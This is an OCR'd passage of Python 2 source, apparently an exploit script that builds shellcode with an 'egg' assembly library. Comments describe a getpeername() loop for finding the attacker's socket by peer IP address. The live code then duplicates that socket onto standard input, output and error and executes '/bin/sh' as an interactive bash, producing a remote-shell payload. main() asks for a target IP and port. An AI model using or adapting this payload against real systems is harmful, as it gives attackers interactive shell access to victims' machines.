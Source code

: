    # NOTE: in linux and openbsd (at least), if the passed length to getpeername() is 0
   # there is no need to pass valid pointer, however the length must be a valid pointer itself.
   # If you wanted to pass a buffer to compare peer's address to some value you could do:
   #
   # foundIP = egg.Do()                                       # outer loop for IP address
   #
   # loop = egg.Do()                                          # inner loop for return value from getpeername()
   # buff = loop.alloc(16)                                    # allocate a 16 bytes buffer (in the stack)
   # lenp = loop.save(16)                                     # initialize the length with 16 (the size of the buffer)
   # err  = loop.getpeername(sock, buff.addr(), lenp.addr())
   # loop += loop.micro.set('edx',buff+4)                     # save peers IP address in 'edx'
   # loop.While(err, '!=', 0)
   #
   # foundIP.While('edx','!=',0x0100007f)

   # dup an exec
   egg.dup2(sock, 0)
   egg.dup2(sock, 1)
   egg.dup2(sock, 2)
   egg.execve('/bin/sh',('bash','-i'))
   print "Egg len: %d" % len(egg)
   return egg


def main():
   if len(sys.argv) < 3:
      raise Exception, "Usage: %s <target ip> <target port>"
